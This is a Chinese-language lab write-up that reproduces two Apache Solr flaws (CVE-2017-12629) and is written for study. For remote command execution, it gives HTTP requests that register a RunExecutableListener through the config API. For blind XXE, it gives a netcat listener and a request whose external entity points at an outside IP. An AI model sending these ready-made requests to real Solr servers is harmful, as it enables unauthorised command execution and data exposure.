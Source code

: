 # Solr < 7.1.0 RCE && XXE（CVE-2017-12629）

# RCE

## 漏洞描述

Solr < 7.1.0 RCE， 无回显

RunExecutableListener类中使用了Runtime.getRuntime().exec()方法，可用于在某些特定事件中执行任意命令
使用 config API 传入 add-listener 命令即可调用 RunExecutableListener

## writeup

- 待执行命令 

```
touch /tmp/success
```

- 创建core

```
docker exec solr bash bin/solr create_core -c demo

- POC1

添加listener

```
POST /solr/demo/config HTTP/1.1
Host: 106.53.141.62:8983
Connection: close
Content-Type: application/json  
Content-Length: 208

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"sh",
    "dir":"/bin/",
    "args":["-c", "touch /tmp/success"]
  }
}
```

触发

```
POST /solr/demo/update HTTP/1.1
Host: 106.53.141.62:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

- POC2

添加listener，直接触发

```
POST /solr/demo/config HTTP/1.1
Host: 106.53.141.62:8983
Connection: close
Content-Type: application/json  
Content-Length: 211

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"sh",
    "dir":"/bin/",
    "args":["-c", "touch /tmp/success"]
  }
}

```

## 复现结果

![](./1.png)

# XXE

## 漏洞描述

Solr < 7.1.0 Blind XXE

在调用lucene xml解析器时确实没有对DTD和外部实体进行禁用处理，造成了Blind XXE

## writeup

- 监听 9999 端口 

```
nc -lvv 9999
```

- POC

```
GET /solr/demo/select?q={!xmlparser+v%3d'<!DOCTYPE+a+SYSTEM+"http%3a//106.53.141.62%3a9999"><a></a>'}&wt=xml&defType=xmlparserE&wt=xml&defType=xmlparser HTTP/1.1
Host: 106.53.141.62:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

## 复现结果

![](./2.png)